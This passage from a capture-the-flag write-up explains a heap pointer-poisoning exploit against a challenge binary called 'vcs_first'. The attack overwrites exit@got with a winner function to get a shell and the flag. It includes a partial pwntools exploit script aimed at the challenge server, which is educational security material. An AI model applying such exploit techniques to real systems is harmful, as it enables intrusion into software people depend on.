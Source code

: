 ```py
send(b"1")
send(b"-1")

p.interactive()
```

The free'd list after the two creates and deletes is `0x60: chunk1 -> chunk2`. We then edit it to be `0x60: chunk1 -> exit@got`. We then create two chunks to create the second chunk at the address of exit@got, and editing exit@got to point at the winner function instead of libc. We then make sure exit is called by sending a negative index to `create`, and when the program tries to call `exit` it will call the `winner` function instead.

Running this locally gives us a shell, and running it against the remote lets us read the flag.

![getting the flag](./images/flag.png "getting the flag")

## Full exploit:

```py
#!/usr/bin/env python3
from pwn import *
import psutil

BINARY = "vcs_first"

context.update(arch="amd64",os="linux")
context.binary = exe = ELF(f"./{BINARY}", checksec=False)

def get_pid_by_name(process_name):
    for process in psutil.process_iter(attrs=['pid', 'name']):
        if process.info['name'] == process_name:
            return process.info['pid']
    return None

# IMPORTANT: requires that you run `docker run -d -p 1024:1024 --rm -it vcs_first` first (with the normal docker image, not the development onw)
# p = remote("localhost", 1024)
# pause() # to give it some time

p = remote("io.ept.gg", 30005)

# uncomment to attach to process in docker
# gdb.attach(target=get_pid_by_name(BINARY), exe=f"./{BINARY}", gdbscript='''
#     source /home/moody/.gdbinit-gef-docker.py
#     c
# ''')

def send(payload):
    p.recvuntil(b">") # thank you nordbo
    p.sendline(payload)

send(b"1") #create (malloc)
send(b"0")

send(b"1") #create (malloc)
send(b"1")

send(b"4") #delete (free)
```